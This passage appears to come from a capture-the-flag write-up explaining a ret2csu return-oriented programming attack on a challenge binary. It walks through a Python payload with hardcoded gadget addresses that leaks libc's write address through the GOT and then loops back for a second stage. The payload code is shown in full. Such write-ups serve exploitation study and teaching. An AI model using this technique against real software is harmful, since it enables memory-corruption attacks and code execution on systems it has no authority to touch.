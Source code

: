 In short, the general strategy with a ret2csu attack is to first call the section that starts the sequence of pops; in this case, the gadget is 0x00400b4a. I will typically set rbx to 0 and rbp to 1 to satisfy the comparison and simplify the r12 decision. Filling r12 is slightly more complicated; good functions to try to call are _init() and _fini, which don't really do much, so they should exit out without causing any problems. However, since the call dereferences the value of r12+rbx*8, we need to find an area in the program that points to the _init() function, rather than just using the address of _init(). You could do this by firing up a program that can read the .dynamic section, since this should contain a pointer to _init(); however, in my humble opinion, it is easier to instead just use the search-pattern command on GDB-GEF to look for spots in memory that point to the address of the _init() function as derived from Ghidra. Then we just fill in r13, r14, and r15 with our desired parameter values; r13 gets 1, which means the write() function will print to stdout, r14 gets the address of the GOT entry for write, which should contain the libc address of the write function which will then be printed to the console, and r15 gets filled with 8, so that 8 characters will be printed to the console, which should be the full length of the libc address. Then call the portion of __libc_csu_init() that triggers the movs, and then return to hidden_func so that we can send another payload based on our leak. The relevant section of code is as follows:

```
#Gadgets:
write_plt = p64(0x00400660)
csu_pops = p64(0x00400b4a)
csu_movs = p64(0x00400b30)
init = p64(0x601dc0)
write_got_plt = p64(0x601fb0)
hidden_func = p64(0x00400814)


padding = b'a' * 72
payload = padding

payload += csu_pops
payload += p64(0) #rbx
payload += p64(1) # rbp
payload += init #r12 gets
payload += p64(1) #r13 goes to edi
payload += write_got_plt #r14, goes to rsi
payload += p64(0x8) # r15, goes to rdx

payload += csu_movs
payload += b'a' * 8 #for the rsp+8
payload += b'a' * 8 * 6 #for the pops


payload += write_plt

#You need to set the first parameter to 1 or hidden_func exits; it's fairly clear from the decompilation 

payload += pop_rdi
payload += p64(1)

payload += hidden_func


target.sendline(payload)

```
